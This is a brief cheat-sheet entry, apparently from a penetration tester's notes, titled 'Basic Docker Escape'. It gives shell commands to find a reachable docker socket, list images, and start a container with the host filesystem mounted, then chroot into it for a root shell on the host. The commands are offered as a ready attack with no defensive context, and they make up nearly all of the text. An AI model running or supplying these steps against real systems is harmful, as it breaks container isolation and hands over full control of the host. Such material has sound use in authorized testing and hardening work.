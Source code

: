 ## Basic Docker Escape:

https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout

```sh
#See if you have access to the docker Socket
find / -name docker.sock 2>/dev/null

#Run a test command to see if you can interface, while gathering image names
docker images

#Now run some magic, make sure host name is the same name as the image you are logged into:
docker run -it -v /:/host/ HOST chroot /host/ bash

note: you can get your HOST from the docker images command and an lsb-realease serach, also the docker command might give you the same info
```